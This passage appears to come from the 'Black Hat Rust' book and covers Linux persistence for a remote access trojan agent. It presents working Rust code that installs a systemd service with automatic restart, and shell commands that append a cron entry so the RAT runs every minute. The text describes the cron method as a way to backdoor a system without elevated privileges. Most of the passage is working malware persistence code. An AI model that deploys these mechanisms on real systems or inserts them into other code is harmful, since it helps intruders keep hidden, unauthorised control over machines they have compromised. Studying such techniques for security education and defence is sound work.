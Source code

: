
### Linux persistence


The simplest way to achieve persistence on Linux is by creating a [`systemd`](https://en.wikipedia.org/wiki/Systemd) entry.

**[ch_12/rat/agent/src/install/linux.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_12/rat/agent/src/install/linux.rs)**
```rust
pub const SYSTEMD_SERVICE_FILE: &str = "/etc/systemd/system/ch12agent.service";

fn install_systemd(executable: &PathBuf) -> Result<(), crate::Error> {
    let systemd_file_content = format!(
        "[Unit]
Description=Black Hat Rust chapter 12's agent

[Service]
Type=simple
ExecStart={}
Restart=always
RestartSec=1

[Install]
WantedBy=multi-user.target
Alias=ch12agent.service",
        executable.display()
    );

    fs::write(SYSTEMD_SERVICE_FILE, systemd_file_content)?;

    Command::new("systemctl")
        .arg("enable")
        .arg("ch12agent")
        .output()?;

    Ok(())
}
```

Unfortunately, creating a `systemd` entry requires most of the time root privileges or is not even available on all Linux systems.

The second simplest and most effective technique to backdoor a Linux system that doesn't require elevated privileges is by creating a `cron` entry.

In shell, it can be achieved like that:
```bash
# First, we dump all the existing entries in a file
$ crontab -l > /tmp/cron
# we append our own entry to the file
$ echo "* * * * * /path/to/our/rat" >> /tmp/cron
# And we load it
$ crontab /tmp/cron
$ rm -rf /tmp/cron
```
